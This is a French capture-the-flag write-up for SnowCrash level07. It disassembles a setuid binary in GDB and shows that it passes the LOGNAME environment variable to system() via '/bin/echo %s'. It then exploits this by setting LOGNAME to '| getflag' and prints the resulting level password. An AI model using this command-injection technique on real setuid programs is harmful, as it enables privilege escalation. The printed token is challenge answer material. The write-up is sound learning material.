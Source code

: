 # 07 - Binary exploit: environnement

- On se connecte en tant que level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```
level07@SnowCrash:~$ ./level07
level07
```


- Un binaire nous a été laissé. Examinons-le de plus près à l'aide de [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- Le programme appelle `<getenv@plt>` après avoir déplacé l'adresse `0x8048680` au sommet de la stack.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` va sauvegarder la valeur de la variable d'environnement `LOGNAME` dans le registre `eax`, et cette valeur sera passée en paramètre à la fonction `<asprintf@plt>`. Ensuite, l'adresse `0x8048688` sera également déplacée au sommet de la stack pour être utilisée par `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- `<asprintf@plt>` stockera dans le registre `eax` l'adresse pointant vers la chaîne `/bin/echo %s`, où `%s` sera remplacé par la valeur de la variable d'environnement `LOGNAME`. Le résultat sera executé par `<system@plt>`, du coup:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
```

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

```
level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```